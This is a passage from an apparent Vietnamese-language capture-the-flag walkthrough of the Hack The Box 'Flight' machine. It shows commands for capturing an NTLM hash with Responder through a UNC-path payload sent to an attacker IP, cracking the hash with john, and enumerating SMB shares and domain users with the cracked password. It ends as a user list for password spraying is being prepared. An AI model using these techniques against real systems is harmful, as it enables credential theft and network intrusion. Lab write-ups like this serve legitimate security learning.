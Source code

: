 ```
responder -I tun0 -v
```

Sau đó, gửi payload sau.

```
http://school.flight.htb/index.php?view=//10.10.14.59/htb
```

![alt text](image-6.png)

Thật vậy, có một hash cho user `svc_apache`. Có thể sử dụng `john` để crack nó.

```
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![alt text](image-7.png)

Có mật khẩu plaintext cho user `svc_apache`.

## Foothold

Bây giờ đã có một bộ thông tin xác thực hợp lệ, tiếp tục enum bằng cách kiểm tra xem user `svc_apache` có thể truy cập bất kỳ share nào trên SMB hay không.

```
smbmap -H flight.htb -u 'svc_apache' -p 'S@Ss!K@*t13'
```

![alt text](image-8.png)

Thật không may, user `svc_apache` không có quyền write vào bất kỳ share nào. Tiếp tục enum bằng cách lấy danh sách những user có mặt trên hệ thống. Để làm điều này, có thể sử dụng `impacket-lookupsid`.

```
impacket-lookupsid svc_apache:'S@Ss!K@*t13'@'flight.htb'
```

![alt text](image-9.png)

Bây giờ có danh sách username hợp lệ. Vì tài khoản `svc_apache` được tạo để chạy dịch vụ Apache nên hoàn toàn có thể là user tạo tài khoản dịch vụ này đã sử dụng lại mật khẩu cá nhân. Có thể thử sử dụng password spray đối với username đã có và kiểm tra xem mật khẩu cho `svc_apache` có được sử dụng lại không.

Trước hết, tạo một file có tên là `users` với nội dung sau:

```
S.Moon
R.Cold
G.Lors
L.Kein
M.Gold
C.Bum
W.Walker
I.Francis
D.Truff
V.Stevens
svc_apache
O.Possum
```
